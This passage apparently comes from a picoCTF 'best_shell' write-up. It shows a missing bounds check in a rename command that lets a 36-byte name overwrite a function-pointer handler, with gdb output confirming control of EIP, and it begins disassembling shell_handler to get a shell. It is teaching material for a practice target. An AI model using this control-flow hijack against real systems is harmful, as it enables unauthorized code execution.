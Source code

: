 The rename command allows us to rename an existing command to whatever we like. There is no bounds checking done, which means if we provide more than 32 bytes for the new name, we can overwrite the funcion pointer handler with whatever address we like. Let's see it in action: 

```text
# gdb -q best_shell
Reading symbols from /root/pico-ctf/bestshell/best_shell...(no debugging symbols found)...done.
gdb-peda$ r
>> rename lol AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
>> AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x42424242 ('BBBB')
EBX: 0xb7767ff4 --> 0x160d7c 
ECX: 0x10 
EDX: 0x0 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbfe19938 --> 0xbfe19968 --> 0xbfe199e8 --> 0x0 
ESP: 0xbfe1988c --> 0x8048c31 (<input_loop+121>:    jmp    0x8048c46 <input_loop+142>)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xbfe1988c --> 0x8048c31 (<input_loop+121>:   jmp    0x8048c46 <input_loop+142>)
0004| 0xbfe19890 --> 0x0 
0008| 0xbfe19894 --> 0x8048ea5 --> 0x6f43000a ('\n')
0012| 0xbfe19898 --> 0xb7768440 --> 0xfbad2288 
0016| 0xbfe1989c --> 0xa00d008 --> 0x0 
0020| 0xbfe198a0 --> 0xbfe198b8 ('A' <repeats 12 times>, "BBBB")
0024| 0xbfe198a4 ('A' <repeats 32 times>, "BBBB")
0028| 0xbfe198a8 ('A' <repeats 28 times>, "BBBB")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

It worked! I renamed the lol command to AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB which overwrote the function pointer handler with the address 0x42424242. When I called the renamed lol command, it attempted to execute the instruction at 0x42424242. All we need to do is point it to an address we want, in this case, the shell command which should give us a shell on the server. Finding the address of shell_handler() is a matter of just disassembling it in gdb on the server:

```
(gdb) disas shell_handler
Dump of assembler code for function shell_handler:
   0x080489c6 <+0>: push   %ebp
   0x080489c7 <+1>: mov    %esp,%ebp
   0x080489c9 <+3>: sub    $0x28,%esp
   0x080489cc <+6>: movzbl 0x804b085,%eax
   0x080489d3 <+13>:    test   %al,%al
   0x080489d5 <+15>:    je     0x8048a06 <shell_handler+64>
   0x080489d7 <+17>:    call   0x8048600 <getegid@plt>
   0x080489dc <+22>:    mov    %eax,-0xc(%ebp)
   0x080489df <+25>:    mov    -0xc(%ebp),%eax
   0x080489e2 <+28>:    mov    %eax,0x8(%esp)
   0x080489e6 <+32>:    mov    -0xc(%ebp),%eax
   0x080489e9 <+35>:    mov    %eax,0x4(%esp)
   0x080489ed <+39>:    mov    -0xc(%ebp),%eax
   0x080489f0 <+42>:    mov    %eax,(%esp)
   0x080489f3 <+45>:    call   0x80486a0 <setresgid@plt>
```